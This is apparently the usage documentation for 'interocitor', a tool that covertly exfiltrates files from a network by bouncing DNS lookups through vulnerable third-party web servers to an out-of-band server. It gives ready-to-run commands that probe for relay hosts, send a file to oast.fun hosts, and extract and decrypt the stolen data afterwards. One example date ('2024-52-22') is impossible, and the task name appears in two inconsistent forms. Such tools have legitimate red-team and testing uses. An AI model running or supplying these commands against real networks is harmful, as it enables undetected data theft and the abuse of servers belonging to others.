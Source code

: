   --trigger-mode <mode>			Type of trigger condition to be satisfied before running a command whose output will be exported, in the form 'type|condition'
								'type' can be one of cmd, file, or dir, 'condition' can be one of ne, lt, gt	(e.g. dir|gt)
								ne = not equal - output different from previously, lt = less than - output is shorter, file has reduced in size, dir has less content, gt = greater than - opposite of lt
  --trigger-target <target>		Target for the above trigger condition - this will be a shell command, filename or directory name.

  --log				Enable logging
  --log-file <path>	Specify a log filename.
  -v, --verbose		Verbose console output
  -h, --help		Show this usage information and exit 

Target Mode
-----------
Select Target Mode if you wish to test whether a host is vulnerable to data bouncing and can be used for exfiltration purposes. This requires a file of suspected or possibly vulnerable URLs as input.
The DNS JSON output from this mode can then be used in subsequent exfiltration tasks.

Examples:
Check which of the URLs in the file targets.txt, are valid ‘data bounce’ targets:
interocitor --mode target --task bouncecheck -v -b ../config/targets.txt --oob  wotmvksfjpdystzjbsgg3e096tnx0mcum.oast.fun

Extract valid bounce targets from a DNS server’s JSON file into a selected text file:
interocitor --mode target --task json_extract -v -b ../TestData/domains.json -d ../TestData/domains.txt 

File Mode
---------
Use File Mode to export data covertly from a network.
The ‘exfil’ task sends the data to the OOB DNS server, via a lookup from a randomly selected vulnerable web server.
Exfiltrated data is embedded in lookup data and can be extracted as required, using the following tasks:
extract_decrypt		Extract the data from the JSON lookup file, and decrypt, before writing to the output file
json_extract		Extract the data from the JSON lookup file to an encrypted output file 
file_decrypt		Decrypt an output file (usually the output from the above json_extract operation)

Note that if no mode and no task is specified, File Mode will be used, with Exfil as the task setting.
In the above operations, the extract_decrypt task performs both stages at once, the others can be used in any situation where there is a desire to perform the two stages separately.

Examples:
Exfiltrate the file beuller.jpg to the DNS server example.oast.fun:
interocitor -f beuller.jpg --oob  example.oast.fun

Exfiltrate the file beuller.jpg to the DNS server example.oast.fun, via a random target from the configs/domains.txt file, verbose mode:
interocitor --task exfil -v -f beuller.jpg -d ./configs/domains.txt --oob  example.oast.fun

Extract exfiltrated data from the DNS lookup file 2024-52-22_05_52.json, and decrypt it, placing the final content in output.jpeg (using default UUID):
interocitor --task extract&decrypt -v -j ../../TestData/output.jpeg -l ../../TestData/2024-52-22_05_52.json
 